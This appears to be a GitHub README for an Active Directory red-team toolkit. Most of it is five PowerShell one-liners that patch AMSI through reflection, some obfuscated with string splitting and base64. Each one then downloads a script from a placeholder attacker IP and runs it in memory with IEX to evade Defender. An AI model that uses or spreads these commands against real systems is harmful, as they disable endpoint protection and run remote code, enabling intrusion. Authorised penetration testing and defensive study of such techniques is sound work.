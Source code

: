 # About the repo:
* You'll find many tools on the internet, however, in this repo you'll find tools that may help you in your AD Red Team activities

# Download as zip or clone it:
* git clone https://github.com/projectHULK/AD_Recon.git

# Import all modules oneliner: (Windows)
* Get-Module -ListAvailable | Import-Module

# As a good practice
* Create a powershell script which will bypass AMSI, load tools and run them in momory 'bypassing Defender'
* I have created Enum.ps1 which will download all the tools and run them in memory 'Put your IP'
* Use the bellow oneliner to bypass AMSI, download Enum,ps1 and run in in memory:
* Option 1)
$a = [Ref].Assembly.GetTypes();ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}};$f.SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://<Your IP>/Enum.ps1') | IEX
* Option 2)
(([Ref].Assembly.gettypes() | ? {$_.Name -like "Amsi*utils"}).GetFields("NonPublic,Static") | ? {$_.Name -like "amsiInit*ailed"}).SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://<Your IP>/Enum.ps1') | IEX
*Option 3)
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True); (new-object system.net.webclient).downloadstring('http://<Your IP>/Enum.ps1') | IEX
* Option 4)
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1); (new-object system.net.webclient).downloadstring('http://<Your IP>/Enum.ps1') | IEX
* Option 5)
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://<Your IP>/Enum.ps1') | IEX

# Note:
* Some tools my require elevated privilege

# AD Road map:
* Coming Soon
